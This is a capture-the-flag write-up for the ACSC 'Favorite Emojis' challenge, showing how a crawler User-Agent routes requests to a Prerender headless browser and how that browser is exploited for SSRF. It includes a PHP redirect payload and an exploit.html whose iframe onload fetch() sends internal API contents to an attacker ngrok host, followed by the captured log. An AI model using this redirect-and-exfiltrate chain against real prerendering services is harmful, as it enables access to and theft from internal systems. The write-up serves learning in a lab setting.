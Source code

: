 ```yaml
---
description: Prerender dynamic rendering leads to SSRF
---
```


# Favorite Emojis

## Description

🎈





                                🏃

`http://favorite-emojis.chal.acsc.asia:5000`

{% file src="../../.gitbook/assets/favorite-emojis.tar.gz\_88c58c7d867bcad99c40a2013cc77a58.gz" caption="Challenge Files" %}

## Solution

The server uses something called dynamic rendering, which renders JavaScript on the server-side before serving web crawlers. This is meant to improve SEO.

If we look at the Nginx configuration, we can see that as long as we set our HTTP `User-Agent` header to one of the web crawlers, e.g.`googlebot`, the request is re-written and forwarded to the pre-renderer at `http://renderer:3000`.

```text
location / {
    try_files $uri @prerender;
}

...

location @prerender {
    proxy_set_header X-Prerender-Token YOUR_TOKEN;
    
    set $prerender 0;
    if ($http_user_agent ~* "googlebot|bingbot|yandex|baiduspider|twitterbot|facebookexternalhit|rogerbot|linkedinbot|embedly|quora link preview|showyoubot|outbrain|pinterest\/0\.|pinterestbot|slackbot|vkShare|W3C_Validator|whatsapp") {
        set $prerender 1;
    }
    if ($args ~ "_escaped_fragment_") {
        set $prerender 1;
    }
    if ($http_user_agent ~ "Prerender") {
        set $prerender 0;
    }
    if ($uri ~* "\.(js|css|xml|less|png|jpg|jpeg|gif|pdf|doc|txt|ico|rss|zip|mp3|rar|exe|wmv|doc|avi|ppt|mpg|mpeg|tif|wav|mov|psd|ai|xls|mp4|m4a|swf|dat|dmg|iso|flv|m4v|torrent|ttf|woff|svg|eot)") {
        set $prerender 0;
    }

    if ($prerender = 1) {
        rewrite .* /$scheme://$host$request_uri? break;
        proxy_pass http://renderer:3000;
    }
    if ($prerender = 0) {
        rewrite .* /index.html break;
    }
}
```

The goal is to get to `http://api:8000/`.

```python
@app.route("/", methods=["GET"])
def root():
    return FLAG
```

If the API server was hosted on port 80 instead, there would be no need for any exploitation - the need for subsequent exploitation stems from the fact that `$host` will strip the port number in the HTTP `Host` header, preventing us from accessing the API server at port 8000 directly.

I came across [this post](https://r2c.dev/blog/2020/exploiting-dynamic-rendering-engines-to-take-control-of-web-apps/) which gave me the inspiration for the exploit. We know that the server uses [Prerender](https://github.com/tvanro/prerender-alpine) to handle these requests. Since Prerender uses Chrome to render JavaScript, we can perform XSS within the renderer.

Set the host header so that the renderer visits our attacker-controlled site. From there, we can redirect the browser using the `Location` header.

`redirect.php`:

```php
<?php 
    header("Location: http://localhost:3000/render?url=http://localhost:3000/render?url=http://0db7-115-66-195-39.ngrok.io/exploit.html");
?>
```

From the user's perspective, the Nginx server will return the 302 redirect, instead of the contents of the redirected site. However, the renderer's browser will still follow the redirect. It will then be redirected to our second exploit page:

`exploit.html`:

```markup
<html>
    <body>
        <iframe id="iframe" src="http://localhost:3000/render?url=http://api:8000/" onload='fetch("http://0db7-115-66-195-39.ngrok.io/?"+btoa(document.getElementById("iframe").contentWindow.document.documentElement.innerHTML));'></iframe>
    </body>
</html>
```

Since both the current site and the iframe's source are `http://localhost:3000`, this bypasses SOP and allows us to access the iframe's contents.

This gives us the `http://api:8000` contents:

```text
[Sat Sep 18 19:36:42 2021] 127.0.0.1:49207 [404]: /?PGhlYWQ+PC9oZWFkPjxib2R5PkFDU0N7c2hhcmtzX2FyZV9hbHdheXNfaHVuZ3J5fTwvYm9keT4= - No such file or directory
```

Which decodes to

```markup
<head></head><body>ACSC{sharks_are_always_hungry}</body>
```

